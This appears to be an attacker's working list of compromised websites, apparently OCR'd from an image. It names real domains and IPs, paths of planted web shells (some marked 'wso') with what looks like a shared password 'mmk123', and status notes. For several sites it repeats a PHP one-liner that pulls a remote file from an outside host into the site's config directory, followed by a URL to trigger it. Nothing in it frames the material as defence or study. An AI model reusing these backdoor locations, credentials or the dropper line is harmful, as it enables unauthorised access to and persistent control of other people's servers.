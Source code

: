 http://c.fangac.cn/three/three.js-master/src/geometries/m1.php |mmk123 |  114.55.58.214 | 404

http://fangac.cn/three/three.js-master/docs/api/ar/audio/m1.php |mmk123 |  114.55.58.214
代码更新：0608 ✅
http://fangac.cn/runtime/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://fangac.cn/config/httpd.php?d=up

http://lybt.fangac.cn/core/cache/m1.php |mmk123 |  114.55.58.214
代码更新：0608 ✅
http://lybt.fangac.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://lybt.fangac.cn/config/httpd.php?d=up
https://lybt.fangac.cn/index_bk.php |mmk123 |  114.55.58.214

https://huace.darexian.com/static/backup/sql/m1.php |mmk123 |  8.134.216.133
代码更新：0608 ✅
https://huace.darexian.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://huace.darexian.com/config/httpd.php?d=up
https://huace.darexian.com/index_bk.php |mmk123 |  8.134.216.133

https://www.1000ma.net/static/backup/sql/m1.php |mmk123 |  120.77.152.51
代码更新：0608 ✅
https://www.1000ma.net/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.1000ma.net/config/httpd.php?d=up

https://120.77.152.51/index_bk.php |mmk123 | 连接不上
https://zz.oumaikeji.com/template/default/wap/m1.php |mmk123 |  120.79.214.114
https://zz.oumaikeji.com/index_bk.php |mmk123 |  120.79.214.114
https://gxzhiyin.cn/skin/fonts/m1.php |mmk123 |  162.14.103.225
https://gxzhiyin.cn/index_bk.php |mmk123 |  162.14.103.225
https://yearstar.odeo.cn/index_bk.php#-big |wso |  219.234.30.92
https://www.nbtongpin.com/template/default/defaults.php-big |wso |  182.92.1.131
https://82.156.191.113/template/default/m1.php |mmk123 
https://82.156.191.113/index_bk.php |mmk123 

https://dati.chentu.fun/app/resource/fonts/m1.php |mmk123 |  101.200.184.155
代码更新：0608 ✅
https://dati.chentu.fun/error/httpd.php
<?php file_put_contents("../payment/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://dati.chentu.fun/payment/httpd.php?d=up
